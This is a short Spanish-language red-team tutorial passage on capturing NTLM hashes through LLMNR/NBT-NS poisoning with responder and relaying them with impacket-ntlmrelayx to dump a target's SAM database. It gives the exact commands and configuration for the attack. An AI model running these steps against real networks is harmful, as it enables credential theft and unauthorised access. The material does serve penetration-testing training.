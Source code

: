### 1. Obtener el Hash NTLM

Para obtener el Hash NTLM lo primero que tenemos que hacer es configurar nuestro envenenador de paquetes, el **responder**.

Como hemos visto en el artículo de [SMB Relay](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/smb-relay), **responder** viene configurado por defecto para envenenar paquetes SMB pero ahora no queremos que haga eso por lo que hay que modificarlo para que quede de la siguiente manera (Desactivamos SMB y HTTP):

![Configuración de responder.conf.](<../../.gitbook/assets/responder4 (1).png>)

Debemos preparar un documento con las IPs de los objetivos para el relay:

`echo "IP_VICTIMA" > targets.txt`

Una vez tenemos el responder configurado debemos correr a la vez el **responder** y el **impacket-ntlmrelayx**.

`sudo responder -i eth0 -rwd`

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

{% hint style="warning" %}
En los sistemas más nuevos es necesario utilizar:\
`impacket-ntlmrelayx -tf fichero.txt -smb2support`\
Ya que trabajan con la versión 2 del protocolo smb y sin esto no obtendremos nada.
{% endhint %}

![Ya tenemos nuestras herramientas a la escucha.](../../.gitbook/assets/ntlmrelay1.png)

Con ambas herramientas a la escucha, es cuestión de tiempo que algún usuario solicite acceso a un recurso compartido inexistente o lo haga alguna herramienta automatizada:

![SAM dumpeada con NTLMRelayx.](<../../.gitbook/assets/imagen (6).png>)
